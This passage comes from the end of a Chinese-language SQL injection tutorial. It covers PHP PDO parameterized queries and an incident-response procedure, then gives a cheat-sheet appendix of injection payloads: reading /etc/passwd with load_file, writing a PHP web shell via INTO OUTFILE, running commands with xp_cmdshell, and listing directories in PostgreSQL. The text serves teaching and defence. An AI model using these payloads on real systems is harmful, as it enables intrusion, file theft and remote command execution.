 - **PHP PDO**：
```php
$stmt = $pdo->prepare('SELECT * FROM users WHERE id = :id');
$stmt->execute(['id' => $_GET['id']]);  // 传递参数数组
```

### 8.4 应急响应流程
当发现SQL注入攻击时，需按以下流程快速处置：
1. **立即止损**：暂停受影响的应用服务，避免攻击持续扩大。
2. **数据备份**：完整备份当前数据库状态，保留攻击证据。
3. **漏洞定位**：审计应用日志和数据库日志，确定注入点和攻击路径。
4. **漏洞修补**：采用参数化查询修复注入点，验证修复效果。
5. **影响评估**：检查数据泄露情况（如用户密码、敏感信息），评估损失。
6. **安全加固**：启用数据库审计、限制数据库权限、升级WAF规则。

> **法律声明**：本文所有技术内容仅供授权测试使用，任何未经授权的攻击行为均属违法！

## 附录：SQL注入速查手册

| 命令                 | 作用                         | 示例                                                  |
| -------------------- | ---------------------------- | ----------------------------------------------------- |
| `@@version`          | 数据库版本                   | `UNION SELECT @@version,2`                            |
| `database()`         | 当前数据库名                 | `UNION SELECT database(),2`                           |
| `schema()`           | 等效database()（部分数据库） | `UNION SELECT schema(),2`                             |
| `load_file()`        | 读系统文件（MySQL）          | `UNION SELECT load_file('/etc/passwd'),2`             |
| `into outfile`       | 写文件（MySQL）              | `UNION SELECT "<?php...",2 INTO OUTFILE '/shell.php'` |
| `information_schema` | 元数据查询（MySQL）          | `SELECT table_name FROM information_schema.tables`    |
| `xp_cmdshell`        | SQL Server命令执行           | `EXEC xp_cmdshell 'dir'`                              |
| `pg_ls_dir`          | PostgreSQL目录遍历           | `SELECT pg_ls_dir('./')`                              |

**实战靶场推荐**：DVWA（ Damn Vulnerable Web Application）、SQLi-Labs、WebGoat，可在本地搭建练习各类注入技术。 

- [联合查询注入全流程](https://blog.csdn.net/mulincong/article/details/130946033)  
- [sqlmap 工业级渗透](https://blog.csdn.net/syg6921008/article/details/147056616)  
- [WAF 绕过白皮书](https://www.imahui.com/network/27455.html)  
- [企业防护方案](https://www.ziyun.com/info/53665965.html)  
- [MySQL 官方手册](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html)  
- [OWASP 原理](https://owasp.org/www-community/attacks/SQL_Injection)  
- [sqlmap 官方仓库](https://github.com/sqlmapproject/sqlmap)  
- [SQLi-Labs 靶场](https://github.com/Audi-1/sqli-labs)
- [SQL注入详解](https://blog.csdn.net/qq_44159028/article/details/114325805?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522b82b163a142378ffc0d288044c3e8f81%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=b82b163a142378ffc0d288044c3e8f81&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-114325805-null-null.142%5Ev100%5Epc_search_result_base8&utm_term=SQL%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4187)

---
